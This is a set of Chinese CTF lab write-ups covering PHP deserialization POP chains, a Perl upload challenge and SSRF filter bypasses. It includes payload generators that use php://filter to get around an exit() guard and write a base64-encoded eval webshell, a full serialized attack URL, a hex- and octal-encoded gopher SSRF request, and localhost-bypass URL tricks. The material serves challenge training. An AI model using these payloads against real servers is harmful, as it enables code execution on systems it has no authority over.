

## [2020 新春红包题]1

根据开启靶场有个`hint1: /?src=1`

`GET`传入`src=1`后显示源代码

```php
<?php
error_reporting(0);

class A {

    protected $store;

    protected $key;

    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this->key = $key;
        $this->store = $store;
        $this->expire = $expire;
    }

    public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);

        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }

        return $contents;
    }

    public function getForStorage() {
        $cleaned = $this->cleanContents($this->cache);

        return json_encode([$cleaned, $this->complete]);
    }

    public function save() {
        $contents = $this->getForStorage();

        $this->store->set($this->key, $contents, $this->expire);
    }

    public function __destruct() {
        if (!$this->autosave) {
            $this->save();
        }
    }
}

class B {

    protected function getExpireTime($expire): int {
        return (int) $expire;
    }

    public function getCacheKey(string $name): string {
        // 使缓存文件名随机
        $cache_filename = $this->options['prefix'] . uniqid() . $name;
        if(substr($cache_filename, -strlen('.php')) === '.php') {
          die('?');
        }
        return $cache_filename;
    }

    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }

        $serialize = $this->options['serialize'];

        return $serialize($data);
    }

    public function set($name, $value, $expire = null): bool{
        $this->writeTimes++;

        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }

        $expire = $this->getExpireTime($expire);
        $filename = $this->getCacheKey($name);

        $dir = dirname($filename);

        if (!is_dir($dir)) {
            try {
                mkdir($dir, 0755, true);
            } catch (\Exception $e) {
                // 创建失败
            }
        }

        $data = $this->serialize($value);

        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }

        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);

        if ($result) {
            return $filename;
        }

        return null;
    }

}

if (isset($_GET['src']))
{
    highlight_file(__FILE__);
}

$dir = "uploads/";

if (!is_dir($dir))
{
    mkdir($dir);
}
unserialize($_GET["data"]);

```

首先找反序列化开始处和最终调用的函数处

反序列化开始的函数为`class A`的`__destruct`方法

```php
public function __destruct() {
        if (!$this->autosave) {
            $this->save();
        }
    }
```

我们想要继续反序列化就需要使`autosave`为`0`或`false`

然后接下来看`seve`函数如何反序列化

```php
public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);

        foreach ($contents as $path => $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }

        return $contents;
    }

    public function getForStorage() {
        $cleaned = $this->cleanContents($this->cache);

        return json_encode([$cleaned, $this->complete]);
    }

    public function save() {
        $contents = $this->getForStorage();

        $this->store->set($this->key, $contents, $this->expire);
    }
```

可以看到`save()`函数调用了`getForStorage()`方法，然后`getForStorage()`方法调用了`clearContents()`方法

`array_flip`查看`php手册`的说明是`将所有键与其在数组中的关联值交换`

即变换后的`$cachedProperties`为

```php
Array ( [path] => 0 [dirname] => 1 [basename] => 2 [extension] => 3 [filename] => 4 [size] => 5 [mimetype] => 6 [visibility] => 7 [timestamp] => 8 [type] => 9 )
```

`array_intersect_key`查看`php手册`的说明是`返回一个数组，其中包含所有条目，其键 array存在于所有参数中。`

即求`$object`和`$cachedProperties`的`交集`，即只能使用`'path', 'dirname', 'basename', 'extension', 'filename',
'size', 'mimetype', 'visibility', 'timestamp', 'type'`等

最终返回值转为`json`格式，然后将转换后的内容作为参数传入方法

```php
$this->store->set($this->key, $contents, $this->expire);
```

因为`class A`中没有`set()`方法但`class B`中有，且`class A`中的`$store`可控，

故`$store`应该为`class B`的实例`new B()`

```php
class B {

    protected function getExpireTime($expire): int {
        return (int) $expire;
    }

    public function getCacheKey(string $name): string {
        // 使缓存文件名随机
        $cache_filename = $this->options['prefix'] . uniqid() . $name;
        if(substr($cache_filename, -strlen('.php')) === '.php') {
          die('?');
        }
        return $cache_filename;
    }

    protected function serialize($data): string {
        if (is_numeric($data)) {
            return (string) $data;
        }

        $serialize = $this->options['serialize'];

        return $serialize($data);
    }

    public function set($name, $value, $expire = null): bool{
        $this->writeTimes++;

        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }

        $expire = $this->getExpireTime($expire);
        $filename = $this->getCacheKey($name);

        $dir = dirname($filename);

        if (!is_dir($dir)) {
            try {
                mkdir($dir, 0755, true);
            } catch (\Exception $e) {
                // 创建失败
            }
        }

        $data = $this->serialize($value);

        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }

        $data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
        $result = file_put_contents($filename, $data);

        if ($result) {
            return $filename;
        }

        return null;
    }

}
```

可以看到我们需要最终执行的结果为

```php
$data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
$result = file_put_contents($filename, $data);
```

在上面我们的`$data`变量经过`serialize`得到,`serialize`是一个可控变量，`serialize`后可以进行压缩，但是这里不进行压缩，所以`$this->options['data_compress']`需要定义为`false`，`serialize`方法将其定义为`strval`，因为`php`支持动态生成成员，构造`payload`

```php
<?php

class B {
    public $options;
    public function __construct() {
        $this->options['data_compress'] = false;
        $this->options['serialize'] = 'strval';
        $this->options['expire'] = 111;
        $this->options['prefix'] = 'php://filter/write=convert.base64-decode/resource=uploads/';
    }
}

class A {
    protected $store;
    protected $key;
    protected $expire;

    public function __construct() {
        $this->key='/../a3.php/.';
        $this->expire=111;
        $this->store=new B();
    }

}


$a = new A();
$a->autosave = false;
$a->cache = array('111'=>array("path" => "PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+"));
$a->complete='2';

echo urlencode(serialize($a));
```

最后访问`uploads/a3.php`并`POST`参数`1=phpinfo();`，可以发现成功执行，后续正常命令执行即可获取`flag`

## [CSAWQual 2016]i_got_id

首页如图


分别点开三个超链接，发现提示信息为`perl`作为后端

输入框尝试了一些简单注入，并无结果，查看文件上传点，其提示是`Perl`文件上传

查看别人WP发现简单上传一个文件内容为`test`的文本文件，并在上方删除`filename`和`Content-Type`直接，直接在`file.pl`构造`?cat+/flag`



## [羊城杯 2020]EasySer

### 考点: `参数爆破` `robots.txt` `php死亡exit`

[远离尘世的幻想乡的文章](https://syunaht.com/p/1492341886.html)


`ctrl+u`没有查看到隐藏信息，再查看常规的路径，发现`robots.txt`


访问`star1.php`，猜测有`ssrf`


`ctrl+u`看看源码有没有隐藏信息


发现隐藏信息，试一下`http`请求，发现`ser.php`的源码


```php
<?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}

?>
```

没有发现反序列化接受参数，反序列化`POP链`为

```
GWHT::__toString() -> Yongen::hasaki()
```

构造`payload`绕过死亡`exit`，使用`php伪协议`绕过

```php
<?php

class GWHT{
    public $hero;
}
class Yongen{ //flag.php
    public $file;
    public $text;
}

$a = new GWHT();
$a->hero = new Yongen();
$a->hero->file = "php://filter/write=convert.base64-decode/resource=a.php";
$a->hero->text = '111' . 'PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==';  //添加的111是补全前面的死亡代码，使其凑够为8的倍数，否则base64解码时会破坏我们构造的shell。


echo urlencode(serialize($a));
```

看别人的`wp`说是用`arjun`扫描出参数，但我没扫出来

```
/star1.php?path=http://127.0.0.1/ser.php&c=O%3A4%3A%22GWHT%22%3A1%3A%7Bs%3A4%3A%22hero%22%3BO%3A6%3A%22Yongen%22%3A2%3A%7Bs%3A4%3A%22file%22%3Bs%3A55%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3Da.php%22%3Bs%3A4%3A%22text%22%3Bs%3A39%3A%22111PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA%2FPg%3D%3D%22%3B%7D%7D
```

然后在`a.php`中执行命令即可

## [网鼎杯 2020 玄武组]SSRFMe

### `SSRF防御机制` `SSRF一些绕过方法` `redis主从复制RCE`

[参考liotree的文章](https://liotree.github.io/2020/07/10/%E7%BD%91%E9%BC%8E%E6%9D%AF-2020-%E7%8E%84%E6%AD%A6%E7%BB%84-SSRFMe/#redis%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6rce)

`check_inner_ip`做了几件事：

- 限制协议只能为`http` `https` `gopher` `dict`

- 使用`parse_url`获取`host`

- 使用

  ```
  gethostbyname
  ```

  获取`ip`地址

  - 防御了`xip.io`这类利用`dns`解析的绕过方法

- 使用

  ```
  ip2long
  ```

  将ip地址转为整数，判断是否为内网网段

  - 防御了`127.0.0.1/8`

另外在发送请求后还对重定向的情况做了处理

```php
if ($result_info['redirect_url'])
{
    safe_request_url($result_info['redirect_url']);
}
```

这样基于跳转的方法也无法使用了

## 一些绕过的方法

虽然dns解析和重定向都无法使用了，但是ssrf的绕过方法依然有很多，逐一尝试下其他方法

- `http://0.0.0.0/hint.php`

  - 测试了下这个方法只能在linux下使用，windows并不认识这个ip…

- `http://foo@127.0.0.1:80@www.google.com/hint.php`

  - orange的[A New Era of SSRF -Exploiting URL Parser in Trending Programming Languages!](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)中提到的方法，利用的是curl和其他库解析url的差异性

    orange的[A New Era of SSRF -Exploiting URL Parser in Trending Programming Languages!](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)中提到的方法，利用的是curl和其他库解析url的差异性
    

    - 不过这个方法在curl较新的版本里被修掉了，buu上的环境也无法使用

    DNS Rebinding

    - 感觉这是最难防御的ssrf绕过方法了，不过对环境也有一定的限制，懒狗还没测试…

    `http://127。0。0。1/hint.php`

    - 这个本地倒是测试成功了，buu上就不行，可能跟curl版本有关吧

    `http://127.1/hint.php`

    - `ip2long('127.1')`会返回`false`，这里可以绕过过滤
    - 但是`gethostbyname`在linux下会把`127.1`变为`127.0.0.1`，所以这题是无法使用的。不过windows下经过`gethostbyname`后依然是`127.1`
    - curl是支持`127.1`这样的写法的，但这样发出去的http请求是有问题的。因为http包中的host头被设为了`127.1`，apache会返回一个400 Bad Request
    - 
    - 既然是http包的问题，那么用gopher协议构造一个正常的http请求即可。不过这因为`gethostbyname`的原因，这个方法这里用不了

- ip进制绕过

  - 本来以为`ip2long`是可以防御这种方法的，后来才发现根本不行…和127.1一样会返回`false`
  - 和127.1类似，也是存在不能用http的问题，但是`gethostbyname`并不会有影响，所以这题是可以使用的，比如:

  ```
  ?url=gopher://0177.0.0x0001:80/_%2547%2545%2554%2520%252f%2568%2569%256e%2574%252e%2570%2568%2570%2520%2548%2554%2554%2550%252f%2531%252e%2531%250d%250a%2548%256f%2573%2574%253a%2520%2531%2532%2537%252e%2530%252e%2530%252e%2531%250d%250a%2555%2573%2565%2572%252d%2541%2567%2565%256e%2574%253a%2520%2563%2575%2572%256c%252f%2537%252e%2536%2535%252e%2533%250d%250a%2541%2563%2563%2565%2570%2574%253a%2520%252a%252f%252a%250d%250a%250d%250a
  ```

- `http://127.0.0.1./hint.php`

  - curl不支持这种写法，猝…

- ipv6

  - 支持ipv6的话可以使用，buu上是不行的

```
http://[::1]/ >>> http://127.0.0.1/
http://[::]/  >>>  http://0.0.0.0/
```

- ```
  http:///127.0.0.1/hint.php
  ```

  - 这个trick也非常有意思，之前一直以为只有浏览器才会解析这样host为空的畸形url，结果翻p牛小密圈旧帖的时候发现Li4n0师傅提到curl和git也会按照浏览器的方式解析，测试以下发现直接用curl会卡在那，但是php的libcurl就可以…
  - 用`parse_url`解析这样的畸形url会返回`false`，然后`$hostname=$url_parse['host'];`会返回`null`（神奇的php)。
  - 接着又是一个windows和linux下php的差异，windows下`gethostbyname(null);`会返回本机ip，导致后面无法绕过ip检测。然而linux下并没有这样的特性，`gethostbyname`会返回`null`，绕过ip检测
  - 另一个大佬博客[kar3az](https://www.cnblogs.com/karsa/p/14123995.html)写过另一种绕过`http://[0:0:0:0:0:ffff:127.0.0.1]//hint.php`

感觉写的有点乱…总结一下buu上环境能用的有：

- `http://0.0.0.0/hint.php`
- gopher+进制转换

```
?url=gopher://0177.0.0x0001:80/_%2547%2545%2554%2520%252f%2568%2569%256e%2574%252e%2570%2568%2570%2520%2548%2554%2554%2550%252f%2531%252e%2531%250d%250a%2548%256f%2573%2574%253a%2520%2531%2532%2537%252e%2530%252e%2530%252e%2531%250d%250a%2555%2573%2565%2572%252d%2541%2567%2565%256e%2574%253a%2520%2563%2575%2572%256c%252f%2537%252e%2536%2535%252e%2533%250d%250a%2541%2563%2563%2565%2570%2574%253a%2520%252a%252f%252a%250d%250a%250d%250a
```

- `http:///127.0.0.1/hint.php`

绕过查看`hint.php`文件内容后

```php
<?php
if($_SERVER['REMOTE_ADDR']==="127.0.0.1"){
  highlight_file(__FILE__);
}
if(isset($_POST['file'])){
  file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);
}
```

可以得知

1.`redis`密码为root

2.`file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);`可以绕过写`shell`，不过试了下没有写权限。同理`redis`写`shell`也行不通了

## [蓝帽杯 2021]One Pointer PHP

`php bypass_disablefunctions` `SUID提权`

题目页面有附件，查看附件文件，有两个文件，`user.php`和`add_api.php`

```php
//user.php

<?php
class User{
	public $count;
}

// add_api.php
include "user.php";
if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
```


可以看到，想要`eval`代码，需要绕过`if($count[]=1)`，便需要`$count[]=1`返回0
